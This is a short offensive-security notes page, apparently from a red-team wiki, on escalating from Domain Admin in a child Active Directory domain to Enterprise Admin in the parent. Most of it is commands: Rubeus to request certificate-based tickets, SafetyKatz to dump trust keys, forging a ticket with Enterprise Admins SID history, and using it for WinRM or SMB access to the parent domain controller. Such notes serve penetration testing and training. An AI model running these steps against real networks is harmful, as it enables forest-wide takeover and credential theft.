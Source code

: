 # DA to EA

## Request other certificate

When you get DA to a domain via [#pkinit-authentication](../misc/ad-authentication.md#pkinit-authentication "mention"), for instance with [esc1.md](../adcs/exploitation/esc1.md "mention"), you can get Enterprise Admin of a parent domain via:

```powershell
> Rubeus asktgt /user:parentdomain.local\Administrator /dc:dc.parentdomain.local /certificate:<cert> /password:<pass> /nowrap /ptt
```

## Domain trust key

Get the trust key from the child domain to the parent domain with SafetyKatz on a DC:

```powershell
> SafetyKatz.exe "lsadump::evasive-trust /patch"
[In] us.techcorp.local -> techcorp.local
* hash
* aes256_hmac XXX
* aes128_hmac XXX
* rc4_hmac_nt XXX

[Out] techcorp.local -> us.techcorp.local
* hash
* aes256_hmac XXX
* aes128_hmac XXX
* rc4_hmac_nt XXX

...
```

It is also possible to retrieve the trust key through [dcsync.md](dcsync.md "mention") (cf. [#with-a-tgt](dcsync.md#with-a-tgt "mention")).

The trust key is of the form of an NT hash.

Next, forge a ticket whose SID History is of `Enterprise Admins` group. The SPN is for krbtgt:

```powershell
> Rubeus.exe evasive-silver /user:Administrator /ldap /service:krbtgt/US.TECHCORP.LOCAL /rc4:<trust key> /sids:<enterprise admins SID> /nowrap
```

Then, ask another service ticket for service HTTP using the previous ticket:

```powershell
> Rubeus.exe asktgs /service:http/techcorp-dc.techcorp.local /dc:techcorp-dc.techcorp.local /ptt /ticket:<ticket>
```

We now have a service ticket to the parent DC with HTTP and Administrator privileges, we can for instance use WinRM to access the DC.

It is possible to specify another service name such as CIFS to access the server via SMB.
